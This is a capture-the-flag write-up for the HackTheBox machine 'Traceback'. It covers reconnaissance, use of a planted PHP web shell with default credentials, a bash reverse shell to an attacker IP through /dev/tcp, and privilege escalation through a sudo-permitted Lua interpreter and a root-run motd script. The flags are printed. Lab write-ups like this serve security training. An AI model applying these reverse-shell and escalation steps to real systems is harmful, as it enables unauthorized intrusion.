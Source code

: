 # Traceback
## Linux
### HackTheBox
### Easy

IP: 10.129.240.171

### NMAP
```Console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
  http-server-header: Apache/2.4.29 (Ubuntu)
  http-methods:
    Supported Methods: OPTIONS HEAD GET POST
  http-title: Help us
```

### Source
 * Found the current comment in the HTML: `<!--Some of the best web shells that you might need ;)-->`
 * Googled and found [this Git repository](https://github.com/TheBinitGhimire/Web-Shells)
 * Created a wordlist using the shell names from that page for `feroxbuster`
```Console
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.129.240.171
 🚀  Threads               │ 50
 📖  Wordlist              │ files/shellList.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.6.4
 💾  Output File           │ dirs/shellList_Fuzz.log
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
200      GET       44l      151w     1113c http://10.129.240.171/
200      GET       59l      100w     1261c http://10.129.240.171/smevk.php
```

### smevk.php
* [Source code for `smevk.php`](https://github.com/TheBinitGhimire/Web-Shells/blob/master/PHP/smevk.php)
* Checked the source code and used the default credentials to log in: `admin:admin`
* Gives access to console information.
* Grabbed `/etc/passwd`
```Console
$ cat passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:109::/run/uuidd:/usr/sbin/nologin
webadmin:x:1000:1000:traceback,,,:/home/webadmin:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
sysadmin:x:1001:1001::/home/sysadmin:/bin/sh
```
* In `/home/webadmin/`:
```Console
$ cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```
* `/opt/owned.msg`
```Console
$ cat owned.msg
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
```

### Reverse shell
* Created reverse shell using `bash -c 'bash -i >& /dev/tcp/10.10.14.86/1234 0>&1'`
* Gained access and, based on the above note, found the following informatin from `sudo -l`
```Console
webadmin@traceback:/home/webadmin/.ssh$ sudo -l
sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```
* Checked `.bash_history`
```Console
webadmin@traceback:/home/webadmin$ cat .bash_history
cat .bash_history
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
rm privesc.lua
logout
ls
cd /
ls
cd home
```
### Pivot
```Console
webadmin@traceback:/dev/shm$ echo "require('os');" > privesc.lua; echo "os.execute('/bin/bash');" >> privesc.lua
<lua; echo "os.execute('/bin/bash');" >> privesc.lua
webadmin@traceback:/dev/shm$ cat privesc.lua
cat privesc.lua
require('os');
os.execute('/bin/bash');
webadmin@traceback:/dev/shm$
```
* Run the `lua` script:
```Console
webadmin@traceback:/home/webadmin$ sudo -u sysadmin /home/sysadmin/luvit /dev/shm/privesc.lua
< sysadmin /home/sysadmin/luvit /dev/shm/privesc.lua
bash -i
bash: cannot set terminal process group (734): Inappropriate ioctl for device
bash: no job control in this shell
sysadmin@traceback:/home/webadmin$ whoami
whoami
sysadmin
sysadmin@traceback:/home/webadmin$
```
* Created a local ssh key to put on the target for a more stable connection.
* User flag: 9c6198596a4eac0817ac3aecfeb90c16
### Privesc
* Used [pspy64](https://github.com/DominicBreuker/pspy) to view the running processes:
```Console
2022/04/19 09:13:01 CMD: UID=0    PID=5462   | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
```
```Console
sysadmin@traceback:/dev/shm$ cat /etc/update-motd.d/00-header
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release


echo "\nWelcome to Xh4H land \n"
```
* This gets run every 30 seconds by `root`. Injecting code into the file should trigger access to root.
```Console
```
* On ncat listner, receive root access:
```Console
root@traceback:/# whoami
whoami
root
root@traceback:/# cd /root
cd /root
root@traceback:/root# ls
ls
root.txt
root@traceback:/root# cat root
cat root.txt
8f49439e9be9ef90231a3799b89fc4d8
```
